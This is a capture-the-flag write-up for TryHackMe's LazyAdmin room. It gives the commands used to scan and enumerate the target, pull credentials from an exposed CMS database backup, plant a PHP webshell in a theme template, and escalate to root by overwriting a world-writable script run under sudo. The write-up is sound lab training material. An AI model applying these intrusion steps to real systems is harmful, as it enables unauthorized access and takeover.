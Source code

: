 # TryHackMe-LazyAdmin-ctf-writeup

Writeup for Lazy Admin CTF available on https://www.tryhackme.com/ (https://www.tryhackme.com/room/lazyadmin)

Aliases:

VICTIM_IP = IP of deployed machine
MY_IP = My IP on TryHackMe VPN

## Information gathering

Nmap syn scan on host:

`nmap -A -Ss VICTIM_IP -oN nmap_syn_def`

Significant results:

PORT 22 -> OPEN, ssh
PORT 80 -> 80 Apache httpd 2.4.18 (Ubuntu)

Visiting VICTIM_IP:80 you can see the classic welcome page, no hints hidden in sourcecode

Gobuster scan on VICTIM_IP/ using dirb's wordlist "common.txt"

`gobuster dir -x php -u VICTIM_IP -w /usr/share/dirb/wordlists/common.txt`

Significant results:

/content

Visiting VICTIM_IP/content we find they are using a CMS called SweetRice, and states: 

"If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website."

Gobuster scan on VICTIM_IP:80 starting from /content

`gobuster dir -x php -u VICTIM_IP -w /usr/share/dirb/wordlists/common.txt`

Significant results:

/_themes
/as
/attachment
/images              
/inc                  
/index.php        
/index.php             
/js  

/as turns out to be a login page, wich I tried to bruteforce using hydra (with username "admin") with no success.

In /inc we find a mysql backup (http://VICTIM_IP/content/inc/mysql_backup/), download and open its content.

There is an INSERT sql statement wich declares a username (manager) and his password md5, you can just crack it on crackstation.

## Gaining first access

Using the credentials from the previous step you can manage to log in the cms. In the dashboard tab we see the button that "opens" the site.
Further looking, you can see a "theme" tab wich allow you modify the template of pages, including the home page.

At this point you can just add a php webshell in the home template and open the site.

If you're using kali you can a find a php webshell in /usr/share/webshells/ or you can just find one on the web, it is usually a php script wich only requires you to insert you ip and a port you'll be listening on.

Once you've inserted the webshell in the template start a nc listener on the port you indicated, start the site and visit /VICTIM_IP/content, you have gained a shell.

Using "find" you can easily locate the user.txt file, for root.txt we probably need to gain root privileges.

## Privilege escalation

Checking permissions on victims host:

`sudo -l`

Result: 

(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

It means we can run that script with sudo permission without being asked for a password. 

`cat /home/itguy/backup.pl`

Ouput:

system("sh", "/etc/copy.sh");

So the script is just calling a shell script

`cat /etc/copy.sh`

It's very useful to check this script permissions: 

`ls -la /etc/copy.sh`

Ouput:

-rw-r--rwx 1 root root 34 Jun 26 16:53 /etc/copy.sh

It means you can modify the script and execute is as sudo. From this point you can basically use this as you want, what I've done is:

`echo 'find / -name root.txt 2>x/dev/null' > /etc/copy.sh`

`sudo perl /home/itguy/backup.pl`

output:

/root/root.txt

`echo 'cat /root/root.txt' > copy.sh`

`sudo perl /home/itguy/backup.pl`

Output:

root flag
  
